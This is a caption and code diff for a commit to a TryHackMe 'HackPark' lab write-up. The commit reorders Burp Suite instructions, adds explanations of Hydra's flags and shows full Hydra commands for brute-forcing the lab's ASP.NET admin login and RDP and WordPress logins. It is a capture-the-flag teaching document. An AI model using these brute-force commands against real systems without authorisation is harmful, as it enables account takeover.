

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/hackpark.md, in a window 1280 px wide and 1400 px high, scrolled down 2527 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/thm/hackpark.md
+++ b/source/docs/thm/hackpark.md
@@ -101,6 +101,9 @@ Type of request:
     # curl -s http://<IP address target machine>/Account/login.aspx?ReturnURL=/admin/ | grep "<form"
         <form method="post" action="login.aspx?ReturnURL=%2fadmin%2f" id="Form1">
 
+Using Burpsuite Intruder, try a brute-force on that `admin` user. Fire up Burpsuite, go to login page,
+set Burpsuite to intercept, and try to log in. Catch the `__VIEWSTATE` for use in Hydra.
+
 Mini hydra cheatsheet:
 
 | Command                                                                                                                                      | Description                                                                                                                                                                  |
@@ -110,10 +113,16 @@ Mini hydra cheatsheet:
 | hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>                                                                                      | Attack a Windows Remote Desktop with a password <br/>list.                                                                                                                   |
 | hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:<br/>log=^USER^&pwd=^PASS^&wp-submit=<br/>Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra <br/>to brute force.                                                                                                                 |
 
-Using Burpsuite Intruder, try a brute-force on that `admin` user. Fire up Burpsuite, go to login page,
-set Burpsuite to intercept, and try to log in. Catch the `__VIEWSTATE` for use in Hydra.
+Using the flags:
 
-    # hydra -f -l admin -P /usr/share/wordlists/rockyou.txt <IP address target machine> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
+* `-f` to stop the attack when a valid password is found
+* `-l` to specify the username for the bruteforce attack
+* `-P` to specify the wordlist to use for the bruteforce
+* `http-post-form` to specify the URL including all parameters used in the request, such as the username, password and the failed authentication message
+
+First attempt:
+
+    # hydra -f -l admin -P /usr/share/wordlists/rockyou.txt <IP address target machine> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
 
 ## Compromise the machine
 
```
